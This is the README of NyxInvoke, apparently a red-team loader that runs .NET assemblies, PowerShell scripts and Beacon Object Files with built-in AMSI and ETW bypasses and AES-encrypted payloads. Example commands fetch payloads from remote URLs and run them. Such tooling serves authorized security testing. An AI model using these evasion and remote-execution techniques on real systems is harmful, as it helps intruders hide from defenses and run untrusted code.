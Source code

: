 # NyxInvoke

NyxInvoke is a versatile command-line tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data

## Usage

NyxInvoke supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### Common Options

- `--base <BASE_URL_OR_PATH>`: Base URL or path for resources
- `--key <KEY_FILENAME_OR_URL>`: AES key file or URL
- `--iv <IV_FILENAME_OR_URL>`: AES IV file or URL

### Mode-Specific Options

1. CLR Mode:
   - `--assembly <ASSEMBLY_FILENAME_OR_URL>`: .NET assembly file or URL
   - `--args <ARGS>...`: Arguments for the executable

2. PowerShell Mode:
   - `--command <COMMAND>`: PowerShell command to execute
   - `--script <SCRIPT_PATH_OR_URL>`: PowerShell script file or URL

3. BOF Mode:
   - `--bof <BOF_FILENAME_OR_URL>`: BOF file or URL
   - `--args <ARGS>...`: Arguments for the BOF

## Examples

### CLR Mode

1. Remote Execution:
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key key.bin --iv iv.bin --assembly payload.exe --args arg1 arg2
   ```

2. Local Execution:
   ```
   NyxInvoke.exe clr --key C:\path\to\key.bin --iv C:\path\to\iv.bin --assembly C:\path\to\payload.exe --args arg1 arg2
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe clr --args arg1 arg2
   ```

### PowerShell Mode

1. Remote Script Execution:
   ```
   NyxInvoke.exe ps --script https://example.com/script.ps1
   ```

2. Local Script Execution:
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

3. Direct Command Execution:
   ```
   NyxInvoke.exe ps --command "Get-Process | Select-Object Name, ID"
   ```

### BOF Mode

1. Remote Execution:
   ```
   NyxInvoke.exe bof --base https://example.com/resources --key key.bin --iv iv.bin --bof payload.o --args "str=argument1" "int=42"
   ```

2. Local Execution:
   ```
   NyxInvoke.exe bof --key C:\path\to\key.bin --iv C:\path\to\iv.bin --bof C:\path\to\payload.o --args "str=argument1" "int=42"
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe bof --args "str=argument1" "int=42"
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/aes.key --iv resources/aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that executes the 'dir' command.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/aes.key --iv resources/aes.iv --bof resources/bof_data.enc --args "wstr=C:\\Windows"
     ```


## Building

To build NyxInvoke with compiled-in CLR or BOF data:

```
cargo build --release --features compiled_clr
```
or
```
cargo build --release --features compiled_bof
```

## Dependencies

- Rust 1.55 or later
- Various Rust crates (see `Cargo.toml`)

## Notes

- Supports AES decryption for encrypted payloads.
- Can load resources from local files, URLs, or use compiled-in data.
- For BOF arguments, use the format "type=value". Supported types: str, wstr, int, short, bin (base64 encoded).

## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

